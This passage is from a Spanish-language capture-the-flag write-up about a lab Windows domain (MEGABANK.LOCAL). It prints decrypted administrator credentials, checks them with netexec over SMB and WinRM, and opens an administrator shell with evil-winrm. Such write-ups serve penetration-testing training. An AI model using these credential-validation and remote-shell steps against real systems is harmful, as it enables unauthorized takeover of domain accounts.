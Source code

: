 ![20240329020749.png](20240329020749.png)

Podemos ver algunas credenciales que son del usuario `administrator`

```python
DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

## Usuario : administrator

Luego de obtener las credenciales debemos de validar con la herramienta `netexec`

```python
❯ netexec smb 10.10.10.172 -u administrator  -p d0m@in4dminyeah!

❯ netexec winrm 10.10.10.172 -u administrator  -p d0m@in4dminyeah!
```

![20240329020857.png](20240329020857.png)

Luego de verificar que son validas, podemos autenticarnos e ingresar como el usuario `administrator`

```python
❯ evil-winrm -i 10.10.10.172 -u administrator  -p d0m@in4dminyeah!
```

![20240329021031.png](20240329021031.png)

